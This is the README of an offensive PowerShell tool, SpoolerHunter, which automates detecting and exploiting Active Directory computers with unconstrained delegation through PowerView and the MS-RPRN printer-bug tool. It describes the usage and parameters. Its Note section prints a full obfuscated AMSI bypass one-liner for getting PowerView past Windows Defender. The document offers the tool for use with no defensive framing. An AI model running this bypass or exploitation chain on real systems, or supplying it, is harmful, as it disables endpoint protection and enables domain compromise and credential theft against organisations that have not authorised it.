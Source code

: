 # SpoolerHunter
<h3>Description:</h3>
SpoolerHunter is a PowerShell script designed to automate the detection and exploitation of unconstrained delegation computers in a domain environment. The script utilizes the PowerView module to identify vulnerable machines and exploits them using the MS-RPRN.exe tool. It provides options to specify a target machine for the scan and enable verbose output for detailed information during execution.
<h3>Usage:</h3>
<div style="background-color: #f5f5f5; /* Light gray background */
            border: 1px solid #ccc; /* Gray border */
            border-radius: 5px; /* Rounded corners */
            padding: 10px; /* Padding around the content */
            margin-bottom: 20px; /* Margin at the bottom */
            color:red;
            font-family: Arial, sans-serif; /* Font family */
            font-size: 14px; /* Font size */
            line-height: 1.5; /* Line height */
            overflow-x: auto; /* Enable horizontal scrolling if needed */">
    <pre><code>.\SpoolerHunter.ps1 [-TargetMachine [String]] [-Verbose] [-h]</code></pre>
</div>
<h3>Parameters:</h3><br/>
<ul>
	<li>
		<b>-TargetMachine [String]</b>: Specifies the machine which is allowed to delegate. If not provided, the script scans for unconstrained delegation computers in the domain.		
	</li>
	<li>
		<b>-Verbose</b>: Enables verbose output, displaying detailed information about the scan and exploitation process.
	</li>
	<li>
		<b>-h</b>: Displays the help message, providing information about the script's usage, parameters, and examples.
	</li>
</ul>
![_proofofconcept](https://github.com/IBarrous/SpoolerHunter/assets/126162952/1633125a-f1cc-4c91-a21e-2dd6983fb635)
<h3>Note:</h3>
<p>use the following AMSI bypass if PowerView is getting blocked by windows defender.</p>
<pre><code>S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )</code></pre>
<h3>Resources:</h3>
<ul>
	<li><a href="https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1"><b>PowerView</b></a></li>
	<li><a href="https://github.com/leechristensen/SpoolSample"><b>MS-RPRN</b></a></li>
</ul>
